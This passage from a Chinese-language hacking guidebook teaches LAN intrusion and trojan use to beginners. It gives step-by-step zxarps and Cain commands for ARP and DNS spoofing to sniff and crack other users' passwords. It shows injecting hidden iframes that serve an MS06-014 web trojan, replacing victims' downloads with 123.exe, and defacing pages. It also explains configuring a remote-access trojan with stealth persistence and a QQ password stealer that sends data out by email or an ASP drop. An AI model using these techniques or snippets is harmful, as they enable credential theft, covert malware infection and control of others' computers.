

图 2.17

## 第二章 局域网攻防全攻略

密码的时候，并没有成功嗅探到密码，这是为什么呢？这是因为当客户端使用远程桌面工具登录 3389 主机时，并没把密码事先写到远程桌面工具（mstsc.exe）里，而是连接成功后再输入密码的，所以就有时嗅不到用户名和密码，这就是很多人没有嗅探 3389 密码的原因。

接下来再来看看还嗅探到了什么东西，点下面的“口令”，如图 2.18。HTTP 里有 2 条记录，无非是一些登录网站的用户名和密码，这个我就不说了，再来看看 telnet 里的嗅探到了些什么东西。选中记录查看一下，弹出一个记事本，这是 telnet 到 192.168.1.2 的用户名和密码哦，这里的用户名每个字母都写了两次，也不知道是什么原因，不过我们还是可以轻易地猜到的，如图 2.19。现在用户名和密码都有了，接下来的事，我想就不用我说了吧。

我们还嗅探到了 10 条 SMB 的记录，SMB 简单地说就是共享服务器，这 10 条 SMB 就是连接共享服务器 192.168.1.2 的用户名和密码。选中“SMB”，在右边框里，右击“发送所有到破解器”，如图 2.20。再点击“破解器”，选中其中一条记录，右击导出，如图 2.21。导出一个 .LC 为扩展名的文件并保存到桌面，再将它的扩展名改成 TXT。改好后，我们再打开另外一个软件 SAMInside（其实 Cain 也可以破解的，但是我觉得自带的那个不好用），点“文件”→“从 PWDUMP 文件导入”，如图 2.22。选择我们刚才改名的那个 TXT 文件。工具可以读出所有用户名，接着我们就开始破解密码了。选中一个你要破解的用户名，再点审计中的“哈希攻击”和“暴力攻击”，再按 F4 就可以开始了。这次破解需要半小时就能破解出来，如图 2.23，那就让它慢慢破解吧，等密码出来后，大家就知道应该干什么了。



图 2.18



图 2.19



图 2.20


图 2.21


图 2.22


图 2.23

#### 2.2.2 局域网 DNS 欺骗挂马

DNS 欺骗原理：局域网里 192.168.0.7 主机向当前网关 192.168.0.2 询问 www.google.com 的 IP 地址是多少时，我们将冒充网关 192.168.0.2 返回给它一个我们特定的包含有木马的 IP 地址，所以当 192.168.0.7 主机每次上网浏览一次我们特定的网站都会打开指定的网页。这样就实现了 DNS 域名欺骗了。


图 2.24

在 DNS 欺骗之前，我们要做两项准备工作：第一项是要生成一个 ms06014 的网马和配置好一个上线的服务端，第二项是在本地架设一个 HTTP 服务器。先来生成一个 ms06014 的网马，打开“ms06014 网马生成器”，输入你本机的 IP 和服务端，生成一个 3800hk.htm 的文件，改为 xx.htm，如图 2.24。

打开 GOOGLE，将首页另存为 index.htm 文件，再用记事本打开，在 `<BODY>` 和 `</BODY>` 之间加入一段代码，插入挂马代码。再打开上线，生成一个服务端，点击“配置服务端”，填入 IP：192.168.0.15:8181，其它默认，保存到桌面改名为 123.exe。我们把 GOOGLE 的首页和生成的 06014 网马以及生成的上线服务端放到一个 123 文件夹里。接着我们来架一个 HTTP，打开“迷你 ASP 服务器”，设置指向 123 文件夹，然后启动 HTTP，如图 2.25。

```html
<iframe src="http://192.168.0.15/xx.htm" width="0" height="0" frameborder="0"></iframe>
```


图 2.25

准备工作都做完了，下面我们开始 DNS 欺骗。再次回到 cain 界面，点击下面的那个“ARP”，再点击上面的那个黑色十字；在弹出的“新建 ARP 欺骗”的对话框，左边选你要欺骗的 IP 地址：192.168.0.7，右边选被欺骗 IP 的目标网关 192.168.0.2，最后确定。点击“ARP-DNS”，右击添加“DNS 欺骗列表”，在“请求的 DNS 的名称”里输入 www.google.com，在“重写在响应包里的 IP 地址”里输入本机 IP 地址 192.168.0.15，确定。再添加一条 www.google.cn，IP 地址也为本机 IP：192.168.0.15。最后点击“开始/停止 ARP 欺骗”，DNS 欺骗工作正式开始了，如图 2.26。


图 2.26

现在只要 192.168.0.7 这台主机打开 google 就会中我们的木马了，不一会儿，果然 192.168.0.7 这台主机上线了，如图 2.27。DNS 欺骗就是这么简单。


图 2.27

### 2.3 Zxarps 的欺骗和嗅探

Zxarps 其实和 Cain 的功能差不多，主要的区别就是 Cain 是图形界面的，Zxarps 是命令行的。在有 cmdshell 或 webshell 的时候，使用这工具来渗透最好不过了。下面我们来研究一下它的详细功能和使用情况吧。在使用 Zxarps 工具之前一定不要忘安装 winPcap 驱动。

`speed [kb]`：限制指定的 IP 或 IP 段的网络总带宽

example：

- 1）嗅探指定的 IP 段中的 HTTP 并保存 USER、PASS 到日志文件  
  `zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.50 -port 80 -save -sniff log`
- 2）嗅探指定区域并过滤 POST 提交中的 user、pass 等字段  
  `zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.50 -port 80 -logfilter +POST user|pass -save -sniff log`
- 3）向目标请求中注入 iframe/脚本  
  `zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -insert <iframe src='xx' width=0 height=0></iframe>`
- 4）限制指定 IP 段访问带宽（如 20KB）  
  `zxarps.exe -idx 0 -ip 192.168.0.55-192.168.0.66 -speed 20`
- 5）DNS 欺骗示例  
  `zxarps.exe -idx 0 -ip 192.168.0.55-192.168.0.66 -hackdns www.aa.com/222.22.2.2,www.bbb.com/1.1.1.1`

图 2.28

首先打开 cmd 输入：`zxarps -idx`，来看看各个参数和参数例子，如图 2.28。

```bash
F:\>zxarps -idx

0. Intel(R) 82562GT 10/100 Network Connection (Microsoft's Packet Scheduler)
IP Address      : 192.168.0.15
Physical Address: 00-1A-4B-6E-DD-8A
Default Gateway : 192.168.0.2

options:
-idx [index]        网卡索引号
-ip [ip]            欺骗的IP，用“-”指定范围，“,”隔开
-sethost [ip]       默认是网关，可以指定别的IP
-port [port]        关注的端口，用“-”指定范围，“,”隔开，没指定默认关注所有端口
-reset              恢复目标机的ARP表
-hostname           探测主机时获取主机名信息
-logfilter [string] 设置保存数据的条件，必须“+”做前缀，后跟关键字；“,”隔开关键字，多个条件“|”隔开
                    所有带“+”前缀的关键字都出现的包则写入文件
                    带“-”前缀的关键字出现的包不写入文件
                    带“~”前缀的关键字一个符合则写入文件（如有“+”条件也要符合）
-save_a [filename]  将捕捉到的数据写入文件，ASCII模式
-save_h [filename]  HEX模式

-hacksite [ip]      指定要插入代码的站点域名或IP，多个可用“,”隔开；没指定则影响所有站点
-insert [html code] 指定要插入html代码

-postfix [string]   关注的后缀名，只关注HTTP/1.1 302
-hackURL [url]      发现关注的后缀名后修改URL到新的URL
-filename [name]    新URL上有效的资源文件名
-hackdns [string]   DNS欺骗，只修改UDP的报文，多个可用“,”隔开
                    格式：域名|IP，如 www.aa.com|222.22.2.2,www.bb.com|1.1.1.1

-interval [ms]      定时欺骗的时间间隔，单位毫秒，默认是3000ms
-spoofmode [1|2|3]  将数据包发到本机，欺骗对象：1为网关，2为网关...
```

> ### 练机53 为溺者（或迟）
> `-speed [kb]`：限制指定的 IP 或 IP 段的网络总带宽，单位 KB。

#### 2.3.1 HTTP 和 FTP 嗅探

来看看 zxarps 的嗅探功能如何，嗅探一些 HTTP 的密码，打开 CMD 输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 80 -save_h sniff.log
```

嗅探从 192.168.0.7 到外网 80 端口所有的数据，如图 2.29。


图 2.29

过一段时间后按 Ctrl+C，停止并保存，然后打开当前目录下的 sniff.log，如图 2.30。我们会看到数据比较杂，一时很难找出有用的数据。


图 2.30

不过可以使用精确点的命令嗅探你想要的数据，输入：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 80 -logfilter "+POST,+username,+password" -save_a sniff2.log
```

以关键字 post、username、password 的形式开始嗅探。post 就是提交的意思，也就是说你在 WEB 页上点击登录按钮，username 和 password 就是那些 WEB 页上输入用户名和密码那个方框的字段名，字段名我们可以这样来获取，比如打开我的博客 http://www.xtaflf.com，查看源代码，如图 2.31。

用户名的字段名 `name="username"`，密码的字段名 `name="password"`，那么也就是说从 192.168.0.7 到外网 80 端口数据中，只要出现字段名是……

图2.31


图2.32


图2.33

username 和字段名是 password 的数据都会记录下来保存到 sniff2.log 文件里。好了，再来看看这次嗅探到了哪些数据，如图 2.32。成功嗅探到用户名和密码了，看上去内容比较清楚，不像上面一样一大堆无用的数据。

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 21,2121 -spoofmode 2 -logfilter "USER,PASS" -save_a sniff.log
```

过一段时间后看看有没有嗅到 FTP 的密码，打开 sniff.log 文件看看，如图 2.33。其实 http 和 ftp 这两条命令我们可以结合来使用，输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 80,21 -logfilter "+POST,+USER,+PASS" -save_a sniff.log
```

这里图我也就不抓了，大家慢慢研究吧。

#### 2.3.2 替换文件挂马法

ARP 挂马才是 zxarps 的主要功能，可以神不知鬼不觉地让你中马，叫人防不胜防。首先在 ARP 挂马之前，我们也要像上面 cain 的 DNS 欺骗挂马时一样，先要做好 http 服务器和 06014 网马以及上兴的服务端，由于上面我都说过，这里就不再重复了。好了，把这三项内容（HTTP 服务器、06014 网马及上兴的服务端）都准备好了，就启动 HTTP 服务器。下面我们来开始吧，在 CMD 中输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -spoofmode 3 -postfix ".exe,.rar,.zip" -hackurl http://192.168.0.15/ -filename 123.exe
```

这条命令是说：当被我们 ARP 欺骗的这两台主机，在任意网站上下载以 rar、zip、exe 为扩展名的时候，都会替换成下载我们事先准备在 192.168.0.15 上的 123.exe 文件。可想而知，这条命令相当有威力，一不小心就会中招的。


图2.34


图2.35

不过，如果对方下载的是“网址+端口号+某文件”的话，就不能成功替换成下载我们做好的木马。这可能是 zxarps 本身的小 Bug 吧。那么如果对方不下载什么软件，我们就没有办法让他们中马了吗？答案是否定的。你接着往下看。

#### 2.3.3 代码插入挂马法

代码插入挂马是这个 zxarps 功能中最为恐怖的一个功能，可以让你无论打开什么样的网站，都会自动在该网站首页里插入一句代码，让你根本察觉不出来，所以希望大家要慎用此招。废话不说了，先启动 HTTP 服务器，再来看命令吧，输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 80 -insert "<iframe src=\"http://192.168.0.15/xx.htm\" width=\"0\" height=\"0\" frameborder=\"0\"></iframe>"
```

如图2.35。上图中说明已经成功插入代码了，对方中马了。如果此时查看对方正在浏览的网站源代码，你一定会发现网站源代码的开头多了一句代码，如图2.36。


图2.36


图2.37

呵呵，还有一个比较有趣的命令，耍人倒非常不错！输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 -port 80 hacksite 125.65.110.221,www.zjhack.cn -insert "hack by Black Mask<noframes>"
```

如图2.37。只要被欺骗主机打开 http://www.zjhack.cn，首页就成了黑页了，是不是有点像本机改 hosts 文件啊？其实这方法比改 hosts 文件更方便些，如图2.38。

#### 2.3.4 DNS 欺骗挂马法

DNS 欺骗在 zxarps 的功能中也有，虽然两者原理一样，但不同的是 cain 是一对一；zxarps 可以一对多。好了，我们来看看吧，首先启动 HTTP 服务器，再输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.11 hackdns "www.google.com|192.168.0.15,www.baidu.com|192.168.0.15"
```

如图2.39。成功 DNS 欺骗了，此时相信你的肉鸡已经上线了，如图2.40。

#### 2.3.5 限制网速

这是 zxarps 的最后一个功能了，可以限制他人的网速，输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.7,192.168.0.11 -speed 20
```


图2.38


图2.39


图2.40


图2.41

如图2.41。这样就可以把 192.168.0.7 和 192.168.0.11 的网速限制在 20K 以内，有点像 p2p 终结者的味道吧。

相信你看了以上文章后，对于局域网的入侵已经不成问题了，特别是当弱口令和系统溢出漏洞没有市场的时候，使用 ARP 欺骗入侵又给局域网带来了一场新的革命。上面提到的 cain 和 zxarps 这两款工具，在功能上又有所相似，但又有些差别。比如 cain 只能针对一个 IP 进行 ARP 欺骗，而 zxarps 却能对一整个 IP 段进行欺骗。其实 cain 和 zxarps 不仅仅是在局域网里有效，在广域网里也同样有效，比如在 C 段里。这个就留给大家去自由发挥吧。还有注意在输入 zxarps 命令的时候一定不要输错了。最后，希望广大黑友在入侵的时候小心谨慎，不要给自己带来不必要的麻烦！

## 第三章 让菜鸟都能玩转木马

对于菜鸟们来说，掌握木马的使用是一个必修的课程，因为在入侵完毕获得了肉鸡的最高权限后，如何才能更好地保持这个权限？就得依靠无所不能的木马了。时至今日，出现过很多优秀的木马，这使得大家在学习木马使用的时候遇到了很大的困惑。其实木马也是分很多类的，通过不同类别的学习，相信大家就可以在最短的时间掌握不同木马的使用方法了。

### 3.1 远程控制篇

此类木马可以管理肉鸡上的文件资料（例如硬盘或者移动硬盘内的文件）、设备（例如摄像头、打印机），就像你利用遥控器遥控电视的音量、变换频道或者开关电视机一样，我们只是对肉鸡发出一系列的控制命令而已。木马一般包括客户端（Client）和服务端（Server），客户端用于控制远程电脑，服务端就是真正的木马，也就是要让对方运行的程序了，就像是一个卧底。当客户端发出命令时，服务端便开始响应。其代表作品：灰鸽子、PcShare、上兴、NS 远控等等。下面就以最新的 NS 远程管理软件 2008VIP 版本来讲解一下此类木马的使用方法。


图3.1


- 首页
- 用户管理
- 合作代理
- 费用支付
- 应用方案
- 技术支持

- 用户主机信息
- 用户主机开设
- 用户主机停用
- 用户主机复用
- 用户主机删除
- 注册资料修改
- 注销安全退出

| 主机名 | 域名 | 状态 | 类型 | 开始日期 | 结束日期 | 更新IP | 更新时间 |
|---|---|---|---|---|---|---|---|

图3.2


- 首页
- 用户管理
- 合作代理
- 费用支付
- 应用方案
- 技术支持

- 用户主机信息
- 用户主机开设
- 用户主机停用
- 用户主机复用
- 用户主机删除
- 注册资料修改
- 注销安全退出

| 字段 | 值 |
|---|---|
| 主机名 | casper13 |
| 域名 | vier.cn |
| 操作 | 保存 |

图3.3

#### 3.1.1 生成服务端

由于 NS 远控属于反弹连接木马，所以需要设定一种上线的方式。我推荐使用动态域名上线方式，因为其免费、稳定等特性要比 FTP 更新好得多。登录 `http://ddns.vier.com.cn/`，如图3.1，注册一个用户。注意：每个 EMAIL 地址只能注册一个用户。登录帐号，进入用户管理中心，显示右侧是空的，因为没有申请动态域名嘛，如图3.2。点击左侧的“用户主机开设”，如图3.3，输入想注册的主机名，然后点击保存按钮即可，主机名添加成功。

动态域名已经注册完毕了，下面就需要更新动态域名的 IP 地址了。还是登录 `http://ddns.vier.com.cn/`，下载主页上的客户端。直接运行后打开“参数设置”选项，如图3.4，将刚才申请的用户名、密码和主机名分别输入。点击“当前 IP”，用来获取当前我们的外网 IP 地址。然后设置好“更新时间”，每几分钟就检测一次 IP 是否发生了变化，如果 IP 更改就将新的 IP 更新到动态域名。当更新 IP 成功后，状态栏也会有显示，而且当你再次登录 WEB 用户管理界面的时候就会发现，这里也显示了当前的 IP 和 IP 的更新时间，如图3.5。


图3.4


| 主机名 | 域名 | 状态 | 类型 | 开始日期 | 结束日期 | 更新IP | 更新时间 |
|---|---|---|---|---|---|---|---|
| casper13 | vier.cn | 正常 | 试用 | 11/29/07 | 11/28/08 | 222.134.129.210 | 11/29/07 01:59 |

图3.5

如果我们是通过路由器 + ADSL 上网的该怎么设置呢？只需要将用到的端口在路由器上做一个转向就可以了，这样连接路由器的特定端口就会自动全部转发到我们的本机。具体操作如下。

- **方法一**：前提是知道路由器的管理密码。首先打开路由器的管理页面，选择“转发规则”中的“虚拟服务器”，添加一个新的端口转向规则。比如我们想把外部的 8000 端口转发到 192.168.1.100 上，填写好后点击保存即可，如图3.6。
- **方法二**：不使用路由器的管理密码，而是利用路由器的 UPNP 功能。打开“UPNP 自动端口映射工具”，点击下一步查找 UPNP 设备（路由器），如图3.7。找到后继续点击下一步，来到 UPNP 端口映射添加/删除界面，如图3.8。填上本机的内网地址、需要做转向的端口，选择连接类型：TCP，动作：添加。点击下一步就可以添加上一条 UPNP 转向记录了，如图3.9。


图3.6


图3.7


图3.8


图3.9

到此准备工作就绪了，打开破解版的 NS 远控，界面简洁大方，使用过灰鸽子的同学一定会很熟悉了。点击配置服务端，如图3.10，在上线地址输入刚才注册的动态域名，格式为“动态域名:端口号”（casper13.vier.cn:8000）。木马为了稳定，还增添了一个备用上线地址。

木马的启动方式有七种自带选项，可以自由选择，说明一下几个方法的特点：

- 1. 服务注入方式均为复制自身 EXE 注册为系统服务，卡巴等主防报警为典型的木马行为。
- 2. 新建 svchost 服务方式，有些杀毒提示注册表主要位置被更改。这种重启后有些机器不上线，但是如果重启后还上线，这种方式比较隐蔽，很难发现。
- 3. HIV 注入方式，是复制自身添加注册表 RUN 关键位置，用了绕过注册表监控的方法，但是手动查看 msconfig 容易发现，还容易造成重复上线问题，然而这种方式却是最稳定的启动方式。
- 4. HIV 守护 svchost 服务方式，为 2 和 3 的综合。区别是注册到 RUN 位置的 EXE 功能不是注入，而是判断 svchost 服务是否被启动，没启动的话则启动。

其它的选项可以视自己的情况进行选择配置。最后点击“生成服务端”，就会自动保存为当前目录下的 server.exe，只需要把这个服务端传播出去就可以控制大量肉鸡了。


图3.10

#### 3.1.2 木马的使用

我们来看一下主界面的布局，左侧用来显示当前已经上线的肉鸡数目及其 IP，中间显示肉鸡当前的磁盘列表，右侧则是肉鸡对应目录中文件列表。

文件管理，如图 3.11：随意点击一台上线的肉鸡，磁盘列表便可自动刷新，可以在文件列表中点击右键选择上传或者下载功能。令人称赞的是，NS 不只可以下载单个文件，还可以下载整个文件夹。还有个独特的功能，比如我们想下载 D 盘下的 RAR 后缀的全部文件，只需要在任意一个 RAR 后缀的文件上点击右键，选择“指定后缀（*.*）文件搜索”便可以下载了。

传输管理，如图 3.12：这里显示当前文件传输状态，比如传输进度、速度、剩余时间等等。而且它还支持断点续传功能，如果肉鸡不慎关机或者丢失连接，还可以等它上来后继续进行传输。


图 3.11

系统信息，如图3.13：通过系统信息可以查看到肉鸡的一些配置信息，比如物理内存、系统版本、系统目录、开机时间、计算机名、分辨率、有无视频等等信息。


图 3.12


图 3.13

注册表，如图3.14：如果需要对肉鸡的注册表进行远程操作的话，可以直接选择注册表进行添加、删除、编辑等操作。

进程管理，如图3.15：首先需要点击“查看进程”，列出肉鸡当前的进程信息，如果想关闭哪个进程只需要选择一个进程，然后点击“终止进程”即可。

窗口管理，如图3.16：首先需要点击“获取窗口信息”，列出肉鸡当前的窗口信息，如果想关闭哪个窗口只需要选择一个窗口，然后点击“关闭选定窗口”即可。还可以在欲操作的窗口名称上点击右键，进行诸如关闭、最大化、最小化、显示、隐藏、最小化所有窗口等操作。

服务管理，如图3.17：首先需要点击“查看服务”，列出肉鸡当前的服务信息，可以针对特定服务做启动、停止、删除服务。还可以点击“新建服务”按钮，来创建一个新的服务，只需要填写服务名称、显示名称、程序路径和描述信息即可。

DOS 命令，如图3.18：此处有两种运行方式。一种是直接模拟 DOS 命令，利用的 command.com 文件，只需要在命令中输入欲执行的命令，然后点击“执行模拟 DOS”即可执行。另一种方式就是通过 Telnet 的方式进行连接，利用的 cmd.exe 文件。只需要点击“开启 Telnet”即可打开超级终端窗口，然后便可以在下侧的命令框中输入命令，回车便可执行。


图3.14


图 3.15


图 3.16


图 3.17


图 3.18

命令广播，如图 3.19：可以对多台肉鸡进行同步操作，比如重启、关机、卸载服务端、打开网页、下载文件、清理肉鸡等等操作。还可以将主机转借，比如我朋友的 IP 为 192.168.10.10，我想将一台肉鸡借给他。只需要在欲转借的肉鸡上点击右键，选择“肉鸡转借”，然后输入“192.168.10.10:8000”即可，一会儿我朋友那边也有肉鸡上来了！还可以开启键盘记录和 HTTP 代理，比如你在入侵的时候，HTTP 代理最有用了。只需要在欲作 HTTP 代理的肉鸡上点击右键选择“开启 HTTP 代理”，然后输入代理端口号即可，然后就可以使用 IE + 代理去入侵或者刷 QB 了。还可以针对肉鸡的窗口或者进程进行筛选，比如我想要找到当前所有使用 QQ 的肉鸡，只需要使用进程筛选，筛选条件为“qq.exe”。因为运行 QQ 的机器进程里肯定有这个进程，根据窗口进行的筛选也是这样操作。

相信有了前面全面的功能使用介绍，大家就会对远控类木马形成一定的印象，然后自己再尝试着使用其他的反弹类木马，就当是练练手，熟悉一下。

### 3.2 盗取密码篇

此类木马可以潜入肉鸡内部获取一些敏感信息，例如 QQ 密码、游戏……


图 3.19

密码、网银密码等等。它会随着系统启动而自动启动，并且一直运行在系统后台监视着键盘输入的信息，并且对输入的敏感信息进行记录，然后木马会将这些敏感信息通过邮件或者其它方式送到黑客的手中。收信方式有两种，一种为普通邮件收信：就是将盗取的帐号和密码以邮件正文的方式发送到指定邮箱中；一种为ASP空间收信：就是将盗取的帐号和密码以URL参数的形式提交到指定的ASP接口文件上，然后再由ASP接口文件将其参数保存到一个文件中。其代表作品：老猫QQ大盗、金狐QQ2008大盗、楚留香木马工具系列、网游猎手等等。下面就以最新的金狐QQ2008大盗[剔除后门收信——1128免杀加强版]来讲解一下此类木马的使用方法。

#### 3.2.1 普通邮件收信

打开金狐QQ2008大盗，首先要点亮“邮件收信”选项框，收信邮箱处填写用于收信的邮箱地址；发信邮箱处填写用于发信的邮箱地址；帐号和密码就是发信邮箱的登录帐号和密码，用于服务器的SMTP验证；SMTP处填写发信邮箱的SMTP服务器地址，此地址可以从提供邮箱的主页上查询得到。发信邮箱和收信邮箱最好不要使用同一个邮箱，如果别人通过分析你的QQ木马，或者经过其它途径获得你的发信邮箱地址及其密码，那么你所有盗取的QQ也就要拱手送人了，如图3.20。最后不要忘了测试哦，点“发信测试”就可以实现两种方式的测试，检验普通邮箱收信配置的正确性，如图3.21。

> **小知识：SMTP和POP3服务**
>
> SMTP（Simple Mail Transfer Protocol）——简易邮件传输通讯协议。SMTP是互联网上的一种通讯协议，主要功能是用来传送电子邮件。当我们通过电子邮件程序，寄E-mail给另外一个人时，必须通过SMTP通讯协议，将邮件送到对方的邮件服务器上，等到对方上网的时候，就可以收到你所寄的信。


图3.20

## 第三章 让菜鸟都能玩转木马


图3.21

> POP3（Post Office Protocol 3）：POP适用于C/S结构的脱机模型的电子邮件协议，目前已发展到第三版，称为POP3。它是因特网电子邮件的第一个离线协议标准。POP3允许用户从服务器上把邮件存储到本地主机（即自己的计算机）上，同时删除保存在邮件服务器上的邮件，而POP3服务器则是遵循POP3协议的接收邮件服务器，用来接收电子邮件的。

| 邮箱类型 | POP3服务器 | SMTP服务器 |
|---|---|---|
| 网易@163.com邮箱 | pop.163.com | smtp.163.com |
| 网易@yeah.net邮箱 | pop.yeah.net | smtp.yeah.net |
| 网易@netease.com邮箱 | pop.netease.com | smtp.netease.com |
| 网易@126.com邮箱 | pop3.126.com | smtp.126.com |
| QQ@qq.com邮箱 | pop.qq.com | smtp.qq.com |
| 搜狐@sohu.com邮箱 | pop3.sohu.com | smtp.sohu.com |
| 信网@eyou.com邮箱 | pop3.eyou.com | mx.eyou.com |
| 新浪@sina.com.cn邮箱 | pop.sina.com.cn | smtp.sina.com.cn |
| 新浪@vip.sina.com邮箱 | pop3.vip.sina.com | smtp.vip.sina.com |
| 新网@tom.com邮箱 | pop.tom.com | smtp.tom.com |
| 亿唐@etang.com邮箱 | pop.free.etang.com | smtp.free.etang.com |

#### 3.2.2 ASP空间收信

打开软件自带的ASP接口文件，如图3.22，修改“strLogFile="qq2008jh.txt"”，把“qq2008jh.txt”改成其它的文件名，以防止被其他不怀好意的人猜测到。然后将这个ASP接口文件上传到空间中，这个空间要支持ASP哦，否则怎么运行这个ASP接口文件呢。


图3.22

打开FlashFXP，新建一个快速连接，如图3.23，服务器就是你的空间服务器的IP地址，端口就是空间服务器开放FTP服务的端口（通常为21），用户名和密码就是你的FTP账号和密码了，远端路径不用管它，然后点击连接按钮即可。当和服务器进行连接后，FlashFXP的右侧会列出当前空间的根目录的文件列表，在FlashFXP的左侧选择ASP接口文件的目录，然后在ASP接口文件上点击右键选择“传送”即可将ASP接口文件上传到空间中，如图3.24。


图3.23

## 第三章 让菜鸟都能玩转木马

打开金狐QQ2008大盗，首先要点亮“空间收信”选项框，在输入框中输入刚才上传的ASP接口文件的URL地址，然后点击生成木马即可，如图3.25。点击“发信测试”按钮，可以模拟进行发信操作来检验你配置的木马是否正常，如图3.26。

如果在本机上测试的话，可以在测试完毕后点一下生成器上的“清除小马”功能按钮，在弹出的对话框里选“是”，然后按照提示点重启计算机，便可清除本机的小马，如图3.27。这款软件免杀操作是做得比较好的，可以在程序中提交被杀情况。同时软件还提供了免费的免杀更新，对免杀操作不太感冒的菜鸟们可是大大的方便了。


图3.24


图3.25


图3.26


图3.27

### 3.3 网页木马篇

此类木马是利用IE、火狐等浏览器或者插入浏览器中的控件的漏洞在肉鸡上悄悄下载其它类木马，并且执行，从而达到了传播木马的目的。因为一个网站有很多人去浏览，所以挂马这种传播方式是高效的。其代表作品：MS06-014、MS07-004、RealPlayer木马等等。

#### 3.3.1 网马生成

下面就以最新的暗黑网马[黑客X档案专版]来讲解一下此类木马的使用方法。打开暗黑网马[黑客X档案专版]，如图3.28，首先来配置一下木马地址。在木马地址输入普通木马的URL地址，就是需要让中马者下载执行的文件；在存放地址处输入木马的URL存放地址，就是普通木马所在的URL目录。


图3.28

先别着急点生成，还没有选择功能呢。可以选择破主动防御，破解卡巴等杀毒软件的主动防御功能；破瑞星卡卡，可以突破卡卡的拦截；破杀软拦截，可以突破一些杀毒软件的拦截；破IE拦截，破解一些具有IE拦截功能的软件；防源码查看，防止网马被恶意的人士进行查看，不使我们的网马被盗取为他人所用。这个综合工具提供了六种目前最为流行的网马，让我们在配置起来省了不少的事。选择完功能后就可以选择生成了，想生成哪种网马就直接点击各个标签前面的单选框，如图3.29。生成之后，就需要把这些页面都上传到你的空间中，然后将网马的URL地址记住，因为它就是网马的访问入口。


图3.29

#### 3.3.2 网马利用

那么网马具体怎么使用呢？当然是需要挂马了，就是在正常的网页文件中添加上挂马代码，用户在访问正常网页的时候就会无意地访问挂马代码（挂马代码执行网马）。

- 1、框架挂马

```html
<iframe src=mm.htm width=0 height=0></iframe>
```

这个方式是最常用的，知道的人也就越多，当然也包括管理员，尽量不要用哦。

- 2、JS挂马

```javascript
document.write("<iframe width='0' height='0' src='mm.htm'></iframe>");
```

```html
<script language=javascript src=xxx.js></script>
```

先保存上述语句为JS文件，然后在需要挂马的地方引入该脚本即可，其中的xxx.js可以是相对路径，也可以是绝对路径。我个人比较喜欢这种方式，因为它的灵活性要强得多，如果想更换挂马页面的地址只需要更改一个JS文件即可，不需要更改每个挂马页面。

- 3、CSS中挂马

```css
